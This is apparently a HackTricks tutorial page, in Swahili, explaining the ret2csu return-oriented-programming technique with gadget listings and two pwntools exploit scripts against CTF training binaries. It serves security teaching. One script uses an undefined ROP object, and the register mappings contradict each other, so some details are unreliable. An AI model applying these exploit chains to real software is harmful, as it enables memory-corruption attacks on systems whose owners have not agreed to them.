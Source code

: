 # Ret2csu

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

##

## [https://www.scs.stanford.edu/brop/bittau-brop.pdf](https://www.scs.stanford.edu/brop/bittau-brop.pdf)Taarifa za Msingi

**ret2csu** ni mbinu ya udukuzi inayotumika unapojaribu kuchukua udhibiti wa programu lakini huwezi kupata **gadgets** unazotumia kawaida kubadilisha tabia ya programu.

Wakati programu inatumia maktaba fulani (kama libc), ina baadhi ya kazi zilizojengwa ndani kwa ajili ya kusimamia jinsi vipande tofauti vya programu vinavyowasiliana. Kati ya kazi hizi kuna baadhi ya vito vilivyofichwa ambavyo vinaweza kutenda kama gadgets zetu zinazokosekana, hasa moja inayoitwa `__libc_csu_init`.

### Gadgets za Uchawi katika \_\_libc\_csu\_init

Katika **`__libc_csu_init`**, kuna mfuatano mbili za maagizo (gadgets) za kuangazia:

1. Mfuatano wa kwanza unaturuhusu kuweka thamani katika register kadhaa (rbx, rbp, r12, r13, r14, r15). Hizi ni kama nafasi ambapo tunaweza kuhifadhi nambari au anwani tunazotaka kutumia baadaye.
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
Hii gadget inatupa uwezo wa kudhibiti hizi registers kwa kupopoa thamani kutoka kwenye stack ndani yao.

2. Mfululizo wa pili unatumia thamani tulizoweka kufanya mambo kadhaa:
* **Hamisha thamani maalum kwenye registers nyingine**, na kuziandaa kwa ajili yetu kuzitumia kama vigezo katika kazi.
* **Fanya wito kwa eneo** lililopangwa kwa kuongeza pamoja thamani katika r15 na rbx, kisha kuzaa rbx kwa 8.
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
```
3. Labda hujui anwani yoyote ya kuandika hapo na unahitaji **maagizo ya `ret`**. Kumbuka kwamba gadget ya pili pia itamalizika kwa **`ret`**, lakini utahitaji kutimiza baadhi ya **masharti** ili kufikia hiyo:
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
add rbx, 0x1;
cmp rbp, rbx
jnz <func>
...
ret
```
The conditions will be:

* `[r12 + rbx*8]` lazima iwe inashiria anwani inayohifadhi kazi inayoweza kuitwa (ikiwa huna wazo na hakuna pie, unaweza tu kutumia kazi ya `_init`):
* Ikiwa \_init iko kwenye `0x400560`, tumia GEF kutafuta kiashiria katika kumbukumbu kwake na ufanye `[r12 + rbx*8]` kuwa anwani yenye kiashiria kwa \_init:
```bash
# Example from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
gef➤  search-pattern 0x400560
[+] Searching '\x60\x05\x40' in memory
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x400000-0x401000), permission=r-x
0x400e38 - 0x400e44  →   "\x60\x05\x40[...]"
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x600000-0x601000), permission=r--
0x600e38 - 0x600e44  →   "\x60\x05\x40[...]"
```
* `rbp` na `rbx` lazima wawe na thamani sawa ili kuepuka kuruka
* Kuna baadhi ya pops zilizokosekana unahitaji kuzingatia

## RDI na RSI

Njia nyingine ya kudhibiti **`rdi`** na **`rsi`** kutoka kwa gadget ya ret2csu ni kwa kufikia ofseti maalum:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt="" width="283"><figcaption><p><a href="https://www.scs.stanford.edu/brop/bittau-brop.pdf">https://www.scs.stanford.edu/brop/bittau-brop.pdf</a></p></figcaption></figure>

Angalia ukurasa huu kwa maelezo zaidi:

{% content-ref url="brop-blind-return-oriented-programming.md" %}
[brop-blind-return-oriented-programming.md](brop-blind-return-oriented-programming.md)
{% endcontent-ref %}

## Mfano

### Kutumia wito

Fikiria unataka kufanya syscall au kuita kazi kama `write()` lakini unahitaji thamani maalum katika register za `rdx` na `rsi` kama vigezo. Kawaida, ungeangalia gadgets ambazo zinaweka register hizi moja kwa moja, lakini huwezi kupata yoyote.

Hapa ndipo **ret2csu** inapoingia:

1. **Weka Register**: Tumia gadget ya kwanza ya kichawi kupop values kutoka kwenye stack na kuingia rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx), na r15.
2. **Tumia Gadget ya Pili**: Ukiwa na register hizo zimewekwa, unatumia gadget ya pili. Hii inakuwezesha kuhamasisha thamani zako ulizochagua katika `rdx` na `rsi` (kutoka r14 na r13, mtawalia), ukitayarisha vigezo kwa wito wa kazi. Zaidi ya hayo, kwa kudhibiti `r15` na `rbx`, unaweza kufanya programu iite kazi iliyoko kwenye anwani unayoihesabu na kuweka katika `[r15 + rbx*8]`.

Una [**mfano unaotumia mbinu hii na kuielezea hapa**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation), na hii ndiyo exploit ya mwisho iliyotumika:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
{% hint style="warning" %}
Kumbuka kwamba exploit iliyopita haikusudiwi kufanya **`RCE`**, inakusudia tu kuita kazi inayoitwa **`win`** (ikichukua anwani ya `win` kutoka stdin inayoita gets katika mnyororo wa ROP na kuihifadhi katika r15) na argument ya tatu yenye thamani `0xdeadbeefcafed00d`.
{% endhint %}

### Kupita simu na kufikia ret

Exploit ifuatayo ilitolewa [**kutoka kwenye ukurasa huu**](https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html) ambapo **ret2csu** inatumika lakini badala ya kutumia simu, in **kupita kulinganisha na kufikia `ret`** baada ya simu:
```python
# Code from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
# This exploit is based off of: https://www.rootnetsec.com/ropemporium-ret2csu/

from pwn import *

# Establish the target process
target = process('./ret2csu')
#gdb.attach(target, gdbscript = 'b *    0x4007b0')

# Our two __libc_csu_init rop gadgets
csuGadget0 = p64(0x40089a)
csuGadget1 = p64(0x400880)

# Address of ret2win and _init pointer
ret2win = p64(0x4007b1)
initPtr = p64(0x600e38)

# Padding from start of input to saved return address
payload = "0"*0x28

# Our first gadget, and the values to be popped from the stack

# Also a value of 0xf means it is a filler value
payload += csuGadget0
payload += p64(0x0) # RBX
payload += p64(0x1) # RBP
payload += initPtr # R12, will be called in `CALL qword ptr [R12 + RBX*0x8]`
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xdeadcafebabebeef) # R15 > soon to be RDX

# Our second gadget, and the corresponding stack values
payload += csuGadget1
payload += p64(0xf) # qword value for the ADD RSP, 0x8 adjustment
payload += p64(0xf) # RBX
payload += p64(0xf) # RBP
payload += p64(0xf) # R12
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xf) # R15

# Finally the address of ret2win
payload += ret2win

# Send the payload
target.sendline(payload)
target.interactive()
```
### Kwa Nini Usitumie libc Moja kwa Moja?

Kawaida kesi hizi pia zina udhaifu wa [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/), lakini wakati mwingine unahitaji kudhibiti vigezo zaidi kuliko vile ambavyo vinaweza kudhibitiwa kwa urahisi na gadgets unazozipata moja kwa moja katika libc. Kwa mfano, kazi ya `write()` inahitaji vigezo vitatu, na **kupata gadgets za kuweka yote haya moja kwa moja huenda isiwezekane**.
